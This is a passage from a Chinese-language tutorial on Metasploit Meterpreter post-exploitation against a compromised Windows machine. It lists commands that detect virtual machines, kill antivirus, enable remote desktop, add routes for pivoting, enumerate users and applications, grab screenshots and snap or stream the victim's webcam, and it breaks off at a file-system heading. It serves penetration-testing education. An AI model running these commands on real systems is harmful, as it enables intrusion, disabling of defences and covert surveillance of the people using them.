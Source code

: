 输入`run post/windows/gather/checkvm`命令查看目标机是否运行在虚拟机上

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6608m1uo0j30u90380u8.jpg)

输入`idletime`命令后可以看到目标机最近的运行时间。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g660b10qpej30t201tgma.jpg)

输入`route `命令查看目标机完整的网络设置

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g660du40s7j30v30bsn66.jpg)

输入background命令将当前会话放到后台。

输入`getuid`命令查看当前目标机器上已经渗透成功的用户名。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g663jrblfaj30r4026aah.jpg)

输入`run post/windows/manage/killav`命令关闭目标机系统杀毒软件。（）

输入`run post/windows/manage/enable_rdp`命令启动目标机的远程桌面协议，也就是常说的3389端口

输入run post/windows/mange/autoroute命令查看目标机的本地子网情况。

为目标机添加路由，先输入`background`命令将Meterpreter终端隐藏在后台，然后输入route add 命令添加路由，添加成功后输入route print命令查看。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g664dlk9aoj30qr08mwit.jpg)

输入`run post/windows/gather/enum_logged_on_users`命令列举当前有多少用户登录了目标机。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g664nsnbfuj310o0cytmk.jpg)

输入`run post/windows/gather/enum_applications`命令列举安装在目标机上的应用程序

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g664vpoyu9j30td09gaet.jpg)

对目标机的屏幕进行截图：

先输入`load espia`命令加载该插件，然后输入`screengrab`命令就可以抓取此时目标机的屏幕截图。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g66562gadkj30t702iq42.jpg)

也可以输入`screenshot`命令来实现

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g6658qduj4j30sr019dg9.jpg)

另外还要一些常用的命令如下：

`webcam_list`  //查看目标机是否有摄像头。

`webcam_snap`    //打开目标摄像头，拍一张照片。

`webcam_stream`   //开启直播模式。

shll  //进入到目标机的shell下面。

exit  //停止Meterpreter会话。

### 文件系统命令
